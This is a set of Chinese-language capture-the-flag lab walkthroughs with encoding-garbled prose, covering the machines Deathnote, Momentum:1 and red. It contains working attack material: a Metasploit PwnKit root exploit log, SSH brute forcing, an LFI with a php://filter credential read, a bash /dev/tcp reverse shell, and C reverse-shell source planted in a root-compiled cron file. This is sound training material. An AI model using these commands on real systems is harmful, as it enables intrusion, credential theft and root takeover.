msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set LPORT 5555
LPORT => 5555

msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > run 
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:5555 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Verify cleanup of /tmp/.qhwyrca
[+] The target is vulnerable.
[*] Writing '/tmp/.wefuymefljbi/kfqdwzcdv/kfqdwzcdv.so' (540 bytes) ...
[!] Verify cleanup of /tmp/.wefuymefljbi
[*] Sending stage (3045380 bytes) to 127.0.0.1
[+] Deleted /tmp/.wefuymefljbi/kfqdwzcdv/kfqdwzcdv.so
[+] Deleted /tmp/.wefuymefljbi/.oniqfxz
[+] Deleted /tmp/.wefuymefljbi
[*] Meterpreter session 2 opened (127.0.0.1:5555 -> 127.0.0.1:54186) at 2025-03-04 10:22:28 +0000

meterpreter > shell
Process 4624 created.
Channel 1 created.
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```


## Deathnote

Nmap 扫æ IP

```
nmap -sP -PR -n -T 5 10.10.10.0/24

address       mac                name  os_name  os_flavor  os_sp  purpose  info  comments
-------       ---                ----  -------  ---------  -----  -------  ----  --------
10.10.10.101  00:0c:29:77:aa:a8        Linux               4.X    server
```


Nmap 扫æ TCP æœåŠ¡

```
db_nmap -sS -sV -n -p- -r -O -T 5 10.10.10.101

host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
10.10.10.101  22    tcp    ssh   open   OpenSSH 7.9p1 Debian 10+deb10u2 protocol 2.0
10.10.10.101  80    tcp    http  open   Apache httpd 2.4.38 (Debian)
```


FFUF 工具使用高频文件字典进行扫æ，å‘ç° robots.txt 文件

```
ffuf -u http://10.10.10.101/FUZZ -w raft-large-files-lowercase.txt

robots.txt              [Status: 200, Size: 68, Words: 11, Lines: 5, Duration: 1ms]
```


访问 robots.txt 页é¢ï¼Œæ示 /important.jpg 路径

```
curl http://10.10.10.101/robots.txt
fuck it my dad 
added hint on /important.jpg

ryuk please delete it
```


访问 important.jpg 页é¢ï¼Œå…¶æ˜¯ä¸€ä¸ª ASCII 文本文件

```
i am Soichiro Yagami, light's father
i have a doubt if L is true about the assumption that light is kira

i can only help you by giving something important

login username : user.txt
i don't know the password.
find it by yourself 
but i think it is in the hint section of site
```

æ示用户å存放在 **user.txt** 中


FFUF 工具使用目录字典进行扫æ

```
ffuf -u http://10.10.10.101/FUZZ -w raft-medium-directories-lowercase.txt

wordpress               [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 0ms]
manual                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 0ms]
```


访问 manual 页é¢ï¼Œè¿™æ˜¯ apache 的文档，无内容。

访问 wordpress 页é¢ï¼Œå‘ç°è¯¥ç½‘站是 wordpress CMS，å端是 apache + php。

注：这里将 10.10.10.101 和域å deathnote.vuln 绑定，通过域å访问网站，å¦åˆ™ä¼šå‡ºç°é—®é¢˜ã€‚




查看网页元素å‘ç° upload 路径


å°è¯•åœ¨é¶æœºä¸Šè®¿é—®è¯¥è·¯å¾„，å‘ç°è¯¥è·¯å¾„存在，开å¯äº† apache 的目录æµè§ˆæ¨¡å¼ï¼Œå­˜åœ¨ user.txt å’Œ notes.txt




æ ¹æ® user.txt å’Œ notes.txt 猜测å¯èƒ½æ˜¯è´¦å·å’Œå¯†ç è¡¨ã€‚

```
user.txt

KIRA
L
ryuk
...
```

```
notes.txt

death4
death4life
death4u
...
```


å°è¯•è¿›è¡Œ ssh 登录

```
msf6 > use auxiliary/scanner/ssh/ssh_login 

msf6 auxiliary(scanner/ssh/ssh_login) > hosts -R 
RHOSTS => 10.10.10.101

msf6 auxiliary(scanner/ssh/ssh_login) > set USER_FILE user.txt 
USER_FILE => user.txt

msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE notes.txt
PASS_FILE => notes.txt

msf6 auxiliary(scanner/ssh/ssh_login) > run 
[*] 10.10.10.101:22 - Starting bruteforce

[+] 10.10.10.101:22 - Success: 'l:death4me' 'uid=1000(l) gid=1000(l) groups=1000(l),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth) Linux deathnote 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64 GNU/Linux '
[*] SSH session 1 opened (10.10.10.10:36185 -> 10.10.10.101:22) at 2025-03-05 02:12:59 +0000
uname -a 
Linux deathnote 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64 GNU/Linux
```


查找主机上的文件，/home/l/user.txt 文件内容为 Brainfuck ç¼–ç 

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++.<<++.>>+++++++++++.------------.+.+++++.---.<<.>>++++++++++.<<.>>--------------.++++++++.+++++.<<.>>.------------.---.<<.>>++++++++++++++.-----------.---.+++++++..<<.++++++++++++.------------.>>----------.+++++++++++++++++++.-.<<.>>+++++.----------.++++++.<<.>>++.--------.-.++++++.<<.>>------------------.+++.<<.>>----.+.++++++++++.-------.<<.>>+++++++++++++++.-----.<<.>>----.--.+++..<<.>>+.--------.<<.+++++++++++++.>>++++++.--.+++++++++.-----------------.
```

```
i think u got the shell , but you wont be able to kill me -kira
```


文件 /opt/L/fake-notebook-rule/case.wav 内容为 16 进制

```
63 47 46 7a 63 33 64 6b 49 44 6f 67 61 32 6c 79 59 57 6c 7a 5a 58 5a 70 62 43 41 3d
```


文件 /opt/L/fake-notebook-rule/hint æ示使用 cyberchef 进行解ç 

```
use cyberchef
```


使用 cyberchef 的魔法功能进行编ç è¯†åˆ«ï¼Œå¯†ç ä¸º **kiraisevil**






切æ¢åˆ° kira 用户，登录æˆåŠŸ

```
l@deathnote:/etc/apache2$ su kira
Password: 
kira@deathnote:/etc/apache2$ 
```


查看 kira 用户的 sudo æƒé™ï¼Œå¯ä»¥æ‰§è¡Œä»»ä½•å‘½ä»¤

```
kira@deathnote:/etc/apache2$ sudo -l 
[sudo] password for kira: 
Matching Defaults entries for kira on deathnote:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User kira may run the following commands on deathnote:
    (ALL : ALL) ALL
```


修改 root 用户密ç 

```
kira@deathnote:/etc/apache2$ sudo passwd root
New password: 
Retype new password: 
passwd: password updated successfully
```


切æ¢åˆ° root 用户

```
kira@deathnote:/etc/apache2$ su root
Password: 
root@deathnote:/etc/apache2# 
```


## Momentum：1

Nmap 扫æ端å£

```
db_nmap -sS -sV -p- -r -n -O -T 5 10.10.10.102
```

```
host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
10.10.10.102  22    tcp    ssh   open   OpenSSH 7.9p1 Debian 10+deb10u2 protocol 2.0
10.10.10.102  80    tcp    http  open   Apache httpd 2.4.38 (Debian)
```


通过æµè§ˆå™¨è®¿é—®ç½‘站，使用 Wappalyzer 识别网站使用了 PHP 语言。

在æµè§ˆå™¨ä¸­è¿›è¡Œç®€å•äº¤äº’，å‘ç°å…¶æ¶‰åŠåˆ°æ•°æ®åº“查询，但是此处无 SQL 注入。




使用 FFUF 工具爆破网站 URL

```
ffuf -u http://10.10.10.102/FUZZ -w raft-large-directories-lowercase.txt
```

```
js                      [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 0ms]
manual                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 0ms]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 247ms]
img                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 986ms]
:: Progress: [56162/56162] :: Job [1/1] :: 2597 req/sec :: Duration: [0:00:14] :: Errors: 0 ::
```


ç»è¿‡æ‰‹å·¥æ£€æŸ¥ manualã€css å’Œ img 路径正常，js 路径下存在 main.js 文件。

```
curl http://10.10.10.102/js/main.js
```

```
function viewDetails(str) {

  window.location.href = "opus-details.php?id="+str;
}

/*
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt(encrypted, "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
*/
```


该代ç å±äºå…¸å‹çš„AES-CBC模å¼è§£å¯†å®ç°ï¼Œé€‚用äºè§£å¯†é€šè¿‡CryptoJS默认é…置加密的数æ®ï¼Œè¿™é‡Œè®¾ç½®äº†å¯†ç ä¸º`SecretPassphraseMomentum` 。

在测试过程中å‘ç°ç½‘站下å‘了一个 cookie，å°è¯•ä½¿ç”¨æ”¹å¯†ç è¿›è¡Œè§£å¯†ï¼Œè§£å¯†å的结æœä¸ºï¼š`auxerre-alienum##` 。





解密网站：https://stackblitz.com/edit/cryptojs-aes-encrypt-decrypt?file=index.js


使用 node 进行解密

```
npm install crypto-js

added 1 package in 2s
```

```
node 

Welcome to Node.js v20.14.0.
Type ".help" for more information.
> var CryptoJS = require("crypto-js");
undefined

> encrypted = "U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt"
'U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt'

> var decrypted = CryptoJS.AES.decrypt(encrypted, "SecretPassphraseMomentum");
undefined

> console.log(decrypted.toString(CryptoJS.enc.Utf8));
auxerre-alienum##
undefined
```


å°è¯•ä½¿ç”¨çº¿ç´¢ **auxerre-alienum##** 通过 ssh 进行登录，测试å‘ç°ç”¨æˆ·å为 **auxerre** ，密ç ä¸º**åŸå§‹å­—符串（auxerre-alienum##）**。

查看进程å‘ç°ä»¥ root 用户è¿è¡Œ redis 进程。

```
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
redis      519  0.1  0.5  57304 12020 ?        Ssl  02:40   0:31 /usr/bin/redis-server 127.0.0.1:6379
```


ç»è¿‡è¿›ä¸€æ­¥ç ”究，å¯ä»¥è¿æ¥åˆ°å®ƒå¹¶æŸ¥çœ‹å…¶å†…容，ç»æµ‹è¯•ï¼Œè¯¥å¯†ç ä¸º root 密ç ã€‚




## red

该é¶æœºå·²ç»è¢«æ”»å‡»è€…入侵，并留下了å门，需è¦æ‰¾å‡ºæ”»å‡»è€…留下的å门，并利用该æ¼æ´ä¸€æ­¥ä¸€æ­¥è·å– root æƒé™ã€‚


端å£å‘ç°

```
db_nmap -sS -sV -p- -r -n -T 5 -O 10.10.10.103
```

```
host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
10.10.10.103  22    tcp    ssh   open   OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 Ubuntu Linux; protocol 2.0
10.10.10.103  80    tcp    http  open   Apache httpd 2.4.41 (Ubuntu)
```


apache ç«¯å£ 80 æ„味ç€æœ‰ä¸€ä¸ªç½‘页，所以转到æµè§ˆå™¨å¹¶è¾“入目标 ip 地å€æ¥è®¿é—®è¯¥ç½‘页。




检查网站å，确定这是一个 WordPress 网站，但无法正常加载。为了解决这个问题，需è¦å°†åŸŸå和主机的映射添加到 hosts 文件中。

```
10.10.10.103    redrocks.win
```


ç°åœ¨æˆ‘们å¯ä»¥çœ‹åˆ° Red å‘我们å‘出的警告信æ¯ï¼ŒæŒ‡å‡ºæˆ‘们的网站已被黑客入侵。Red 还为我们æ供了有关å门的线索。




使用 FFUF 对一些路径进行暴力破解

```
ffuf -u http://redrocks.win/FUZZ -w CommonBackdoors-PHP.fuzz.txt
```

```
NetworkFileManagerPHP.php [Status: 500, Size: 0, Words: 1, Lines: 1, Duration: 2770ms]
```


ç›´æ¥è®¿é—®è¿™ä¸ªè·¯å¾„，并没有返å›ä»»ä½•å†…容

```
curl -i http://redrocks.win/NetworkFileManagerPHP.php 

HTTP/1.0 500 Internal Server Error
Date: Sat, 08 Mar 2025 15:06:05 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
```


它是一个 webshellå门。但根æ®æˆ‘们的æç¤ºï¼Œæˆ‘ä»¬çŸ¥é“ Red 正在将其用作æŸç§ç±»å‹çš„ LFI å门。

LFI（Local File Inclusion，本地文件包å«ï¼‰å门是一ç§åˆ©ç”¨Web应用程åºä¸­çš„文件包å«æ¼æ´ï¼ˆLFI）æ¥æ¤å…¥æˆ–ç»´æŒæŒä¹…性访问æƒé™çš„æ¶æ„技术。

LFI å门，å¯é€šè¿‡URLå‚数（如`?page=about.php`）æ“æ§æ–‡ä»¶åŒ…å«è·¯å¾„。å°è¯•ä½¿ç”¨ LFI å‚æ•°å­—å…¸å°è¯•çˆ†ç ´è¿™ä¸ªå门的å‚数。

```
ffuf -u http://redrocks.win/NetworkFileManagerPHP.php?FUZZ=test -w lfi-fuzz-params-list.txt -mc 200
```

```
key                     [Status: 200, Size: 1, Words: 1, Lines: 2, Duration: 4888ms]
```


LFI å门的å‚数是 key，使用æ¼æ´è¯»å–文件，å‘ç°å¯ç™»å½•çš„用户为 rootã€johnã€ippsec å’Œ oxdf 等。

```
curl http://redrocks.win/NetworkFileManagerPHP.php?key=/etc/passwd | grep /bin/bash
```

```
root:x:0:0:root:/root:/bin/bash	
john:x:1000:1000:john:/home/john:/bin/bash
ippsec:x:1001:1001:,,,:/home/ippsec:/bin/bash
oxdf:x:1002:1002:,,,:/home/oxdf:/bin/bash
```


è¯»å– wp-config.php 文件，è·å–æ•°æ®åº“çš„è´¦å·å’Œå¯†ç ã€‚

```
curl -i http://redrocks.win/NetworkFileManagerPHP.php?key=wp-config.php 

HTTP/1.1 200 OK
Date: Sat, 08 Mar 2025 15:38:44 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 1
Content-Type: text/html; charset=UTF-8
```

æœåŠ¡å™¨è¿”å› HTTP 200 Code，但是没有任何内容，因为 wp-config.php 文件内容为 `<?php ... ?>` ，PHP 会å°è¯•è§£æ和执行这些代ç ï¼Œè€Œä¸æ˜¯ç›´æ¥ä»¥æ–‡æœ¬å½¢å¼è¿”å›ã€‚


此处å¯ä»¥ä½¿ç”¨ php 伪å议，在读å–文件内容时进行 base64 ç¼–ç ï¼Œæ­¤æ—¶ PHP 就无法解æ和执行代ç ï¼Œè€Œæ˜¯ç›´æ¥è¿”å›æ–‡æœ¬ã€‚

```
curl -i http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/read=convert.base64-encode/resource=wp-config.php
HTTP/1.1 200 OK
Date: Sat, 08 Mar 2025 15:42:22 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 4529
Content-Type: text/html; charset=UTF-8

PD9waHANCi8qKg0KICogVGhlIGJhc2UgY29uZmlndXJhdGlvbiBmb3IgV29yZFByZXNzDQogKg0KICogVGhlIHdwLWNvbmZpZy5waHAgY3JlYXRpb...
```


在使用 curl ä¸ä½¿ç”¨ -i å‚数，并将错误输出é‡å®šå‘到  /dev/null，将返å›çš„内容通过管é“传输给 base64 进行解ç 

```
curl http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/read=convert.base64-encode/resource=wp-config.php 2> /dev/null | base64 -d
```

```
<? ...

/** MySQL database username */
define( 'DB_USER', 'john' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3v_m4lwh3r3_k1nG!!' );

... ?>
```

- 用户：**john**
- 密ç ï¼š**R3v_m4lwh3r3_k1nG!!**


æ•°æ®åº“用户å和系统用户å相åŒï¼Œå°è¯•ä½¿ç”¨è¯¥ç”¨æˆ·å和密ç é€šè¿‡ SSH 登录系统，登录失败。

读å–LFI å门文件 NetworkFileManagerPHP.php 文件è·å–更多信æ¯ã€‚

```
curl  http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/read=convert.base64-encode/resource=NetworkFileManagerPHP.php 2> /dev/null | base64 -d
```

```
<?php
   $file = $_GET['key'];
   if(isset($file))
   {
       include("$file");
   }
   else
   {
       include("NetworkFileManagerPHP.php");
   }
   /* VGhhdCBwYXNzd29yZCBhbG9uZSB3b24ndCBoZWxwIHlvdSEgSGFzaGNhdCBzYXlzIHJ1bGVzIGFyZSBydWxlcw== */
?>
```


LFI å门文件中有一段ç»è¿‡ base64 ç¼–ç çš„注释，解ç å的内容如下：

```
That password alone won't help you! Hashcat says rules are rules
```

**That password alone won't help you!**†指仅凭一个åŸå§‹å¯†ç ï¼ˆå¦‚ä»æ³„露数æ®ä¸­è·å–çš„æ˜æ–‡å¯†ç ï¼‰ä¸è¶³ä»¥ç ´è§£ç›®æ ‡ç³»ç»Ÿï¼Œå¯†ç å¯èƒ½ç»è¿‡å˜å½¢ã€‚

“**Hashcat says rules are rules**†强调必须使用 Hashcat 的规则集æ¥æ‰©å±•å¯†ç çš„å¯èƒ½æ€§ï¼Œå¦åˆ™æ— æ³•æˆåŠŸç ´è§£ã€‚这里的第一个“rulesâ€æŒ‡æŠ€æœ¯è§„则（密ç å˜å½¢è§„则），第二个“rulesâ€å€Ÿç”¨è‹±æ–‡è°šè¯­â€œè§„则就是规则â€ï¼Œæš—示必须éµå®ˆå®¢è§‚规律。


创建一个文件，命å为 pass.txt，文件内容如下。

```
R3v_m4lwh3r3_k1nG!!
```

使用 hashcat 中的 best64.rule 规则对密ç è¿›è¡Œå˜å½¢ã€‚

```
hashcat --force pass.txt -r /usr/share/hashcat/rules/best64.rule --stdout > wordlist.txt
```

```
R3v_m4lwh3r3_k1nG!!
!!Gn1k_3r3hwl4m_v3R
R3V_M4LWH3R3_K1NG!!
r3v_m4lwh3r3_k1nG!!
R3v_m4lwh3r3_k1nG!!0
...
```


通过 Hydra 使用å˜å½¢çš„ wordlist.txt 密ç å­—典，对 john 用户的密ç è¿›è¡Œçˆ†ç ´ã€‚

```
hydra -l john -P wordlist.txt 10.10.10.103 ssh
```

```
[DATA] max 16 tasks per 1 server, overall 16 tasks, 77 login tries (l:1/p:77), ~5 tries per task
[DATA] attacking ssh://10.10.10.103:22/
[22][ssh] host: 10.10.10.103   login: john   password: r3v_m4lwh3r3_k1nG!!
1 of 1 target successfully completed, 1 valid password found
```


ç°åœ¨å¯ä»¥é€šè¿‡ SSH 进入æœåŠ¡å™¨ï¼Œred 设置了防御机制，5 分钟å将我们注销并更改密ç ã€‚

```
Last login: Sat Mar  8 16:51:07 2025 from 10.10.10.10
john@red:~$ Red Rules, Blue Drools!
You will never win Blue
Say Bye Bye to your Shell Blue and that password
Connection to 10.10.10.103 closed by remote host.
Connection to 10.10.10.103 closed.
```


å¯ä»¥çœ‹åˆ°æˆ‘们有一个å为 ippsec 的用户，也å¯ä»¥ä¸ä½¿ç”¨å¯†ç æˆåŠŸç™»å½•ã€‚

```
sudo -l

Matching Defaults entries for john on red:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on red:
    (ippsec) NOPASSWD: /usr/bin/time
```


因此，è¦ä»¥ ippsec 身份登录，我们使用以下命令

```
sudo -u ippsec /usr/bin/time /bin/bash
```


ç°åœ¨é¦–先我们需è¦è¿…速采å–行动并ç¦ç”¨ cronjob 系统以é¿å…被注销。

ç°åœ¨æˆ‘们需è¦åœ¨æ”»å‡»æœºåˆ›å»ºä¸€ä¸ª netcat 监å¬å™¨ï¼Œè¿™æ ·æˆ‘们就å¯ä»¥è·å–该机器的 revshell。

```
rlwrap nc -lnvp 3333
```


在é¶æœºæ‰§è¡Œä»¥ä¸‹å‘½ä»¤ï¼Œåå¼¹ shell。

```
bash -i >& /dev/tcp/10.10.10.10/3333 0>&1
```


一旦我们è·å¾—了机器的 revshell，我们就需è¦ä½¿ç”¨è¿™ä¸ª python 命令。这是一个用äºç”Ÿæˆæ–° shell 进程并将其附加到类 Unix 系统上的伪终端 (pty) 的命令。

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


ç°åœ¨æˆ‘们通过使用以下方å¼å°† netcat 会è¯ç½®äºåå°

```
[CTRL + Z]
```


æ¥ä¸‹æ¥æˆ‘们输入这个命令并按两次 Enter 键，该命令将终端设置为“åŸå§‹â€æ¨¡å¼å¹¶å…³é—­â€œå›æ˜¾â€æ¨¡å¼ã€‚

```
stty raw -echo;fg 
```


设置终端类å‹ï¼Œç°åœ¨è¿™ä¸ªè¿‡ç¨‹å·²ç»å®Œæˆï¼Œä¸€æ—¦æˆ‘们被踢出，我们ä»ç„¶å¯ä»¥è®¿é—® shell。

```
export TERM=xterm
```


为了è·å¾—更好的交互体验，这里我是用 rospo 工具在 2222 端å£å¯åŠ¨ä¸€ä¸ª ssh æœåŠ¡ï¼Œå¹¶ä½¿ç”¨ ssh 客户端è¿æ¥ä¸Šå»ã€‚

å°† rospo 工具传输到é¶æœºï¼Œæ”»å‡»æœºæ‰§è¡Œä»¥ä¸‹å‘½ä»¤ï¼š

```
nc -lnvp 4444 < rospo 
Listening on 0.0.0.0 4444
...
```

é¶æœºæ‰§è¡Œä»¥ä¸‹å‘½ä»¤ï¼š

```
nc 10.10.10.10 4444 > rospo
```


检查文件是å¦ä¼ è¾“正确，并赋予执行æƒé™

```
rospo: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, Go BuildID=wY5thRmEU730-d9-WMID/meQnPmO4P_odf73Yhr5U/307mrOZn7rGvdWn-fpC5/-HjFX7R-q9_Xf9BJZbGq, stripped
```

```
sha512sum rospo
4112a5f2750fa9e4236491b588c22b6321f98d21603ba71b688e193c169eb43bae1192f620b36a764cf1ab193818f6a487eb5f23a34b9c911f5e6f0d3fb2dbde  rospo
```

```
chmod +x rospo
```


å¯åŠ¨æœåŠ¡

```
nohup ./rospo sshd -A 111 -P :2222 > out 2>&1 &
```

```
ssh ippsc@10.10.10.103 -p 2222

 .---------------.
 | 🸠rospo sshd |
 .---------------.

ippsc@10.10.10.103's password: 
ippsec@red:~$ 
```


ç°åœ¨è®©æˆ‘们导航到 wordpress 文件夹

```
cd /var/www/wordpress
```


ç°åœ¨æˆ‘们å¯ä»¥çœ‹åˆ°ä¸€ä¸ªç”± root å’Œ ippsec 拥有的 .git 文件夹。我们需è¦è¿›å…¥è¿™ä¸ªæ–‡ä»¶å¤¹




在 .git 文件夹中，å¯ä»¥çœ‹åˆ°ä¸€ä¸ªå为supersecretfileuc.c的文件，ç°åœ¨è®©æˆ‘们使用tac查看这个文件的内容：

```
tac supersecretfileuc.c | tac
```

```
#include <stdio.h>
  
int main()
{
  
    // prints hello world
    printf("Get out of here Blue!\n");
  
    return 0;
}
```


ç°åœ¨æˆ‘们å¯ä»¥çœ‹åˆ° C 脚本是一个 cronjob，如æœæˆ‘们å°è¯•æ‰§è¡Œ rev 脚本，我们å¯ä»¥çœ‹åˆ°å®ƒåŠ è½½äº† cronjob 消æ¯ã€‚




è¿™æ„å‘³ç€ red å¯èƒ½ä¼šä»¥ root 用户执行 rev 文件，我们å¯ä»¥å°† rev 替æ¢ä¸ºæˆ‘们进行æ„造的文件（一个åå‘ shell），这样å¯ä»¥è·å–到 root æƒé™ã€‚如æœåˆ é™¤ rev 文件，在 root æ¯æ¬¡æ‰§è¡Œ rev 文件å‰ï¼Œä¼šé‡æ–°å°† supersecretfileuc.c 文件的内容é‡æ–°ç¼–译为 rev，所以åªéœ€è¦æ›¿æ¢ supersecretfileuc.c 文件的内容å³å¯ã€‚以下是åå‘ shell çš„ C 代ç ã€‚

```
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
   int port=5555;
   struct sockaddr_in revsockaddr;
   
   int sockt = socket(AF_INET, SOCK_STREAM, 0);
   revsockaddr.sin_family = AF_INET;
   revsockaddr.sin_port = htons(port);
   revsockaddr.sin_addr.s_addr = inet_addr("10.10.10.10");
   
   
  connect(sockt, (struct sockaddr *) &revsockaddr,
  sizeof(revsockaddr));
  dup2(sockt, 0);
  dup2(sockt, 1);
  dup2(sockt, 2);
  
  char * const argv[] = {"/bin/bash", NULL};
  execve("/bin/bash", argv, NULL);
  
  return 0;
  
}
```


ç¼–ç æˆ base64 åç›´æ¥ä½¿ç”¨ echo 命令输出，通过管é“传输给 base64 命令进行解ç ï¼Œç„¶åé‡å®šå‘到 supersecretfileuc.c  文件中。




ç”±äºè¿™ä¸¤ä¸ªæ–‡ä»¶çš„所有æƒä¸º root，所以ä¸èƒ½ç›´æ¥ä¿®æ”¹ã€‚ç”±äºæˆ‘们拥有父目录的写入全新啊，所以å¯ä»¥åˆ é™¤æ–‡ä»¶å在创建。

```
-rwxr-xr-x 1 root     root     16712 Mar  8 17:24 rev
-rw-r--r-- 1 root     root       123 Oct 31  2021 supersecretfileuc.c
```

```
echo I2luY2x1ZGUgPHN0ZGlvLmg+DQojaW5jbHVkZSA8c3lzL3NvY2tldC5oPg0KI2luY2x1ZGUgPHN5cy90eXBlcy5oPg0KI2luY2x1ZGUgPHN0ZGxpYi5oPg0KI2luY2x1ZGUgPHVuaXN0ZC5oPg0KI2luY2x1ZGUgPG5ldGluZXQvaW4uaD4NCiNpbmNsdWRlIDxhcnBhL2luZXQuaD4NCg0KaW50IG1haW4odm9pZCl7DQogICBpbnQgcG9ydD01NTU1Ow0KICAgc3RydWN0IHNvY2thZGRyX2luIHJldnNvY2thZGRyOw0KICAgDQogICBpbnQgc29ja3QgPSBzb2NrZXQoQUZfSU5FVCwgU09DS19TVFJFQU0sIDApOw0KICAgcmV2c29ja2FkZHIuc2luX2ZhbWlseSA9IEFGX0lORVQ7DQogICByZXZzb2NrYWRkci5zaW5fcG9ydCA9IGh0b25zKHBvcnQpOw0KICAgcmV2c29ja2FkZHIuc2luX2FkZHIuc19hZGRyID0gaW5ldF9hZGRyKCIxMC4xMC4xMC4xMCIpOw0KICAgDQogICANCiAgY29ubmVjdChzb2NrdCwgKHN0cnVjdCBzb2NrYWRkciAqKSAmcmV2c29ja2FkZHIsDQogIHNpemVvZihyZXZzb2NrYWRkcikpOw0KICBkdXAyKHNvY2t0LCAwKTsNCiAgZHVwMihzb2NrdCwgMSk7DQogIGR1cDIoc29ja3QsIDIpOw0KICANCiAgY2hhciAqIGNvbnN0IGFyZ3ZbXSA9IHsiL2Jpbi9iYXNoIiwgTlVMTH07DQogIGV4ZWN2ZSgiL2Jpbi9iYXNoIiwgYXJndiwgTlVMTCk7DQogIA0KICByZXR1cm4gMDsNCiAgDQp9 | base64 -d | tac | tac > supersecretfileuc.c
```


åœ¨æ”»å‡»æœºä¸Šé€šè¿‡ç›‘å¬ 5555 端å£ï¼Œç­‰å¾…大约 2 分钟å，æ¥æ”¶åˆ°åå¼¹ shell，è·å–到 root æƒé™ã€‚

```
nc -lvnp 5555
Listening on 0.0.0.0 5555
Connection received on 10.10.10.103 36318

id
uid=0(root) gid=0(root) groups=0(root)
```

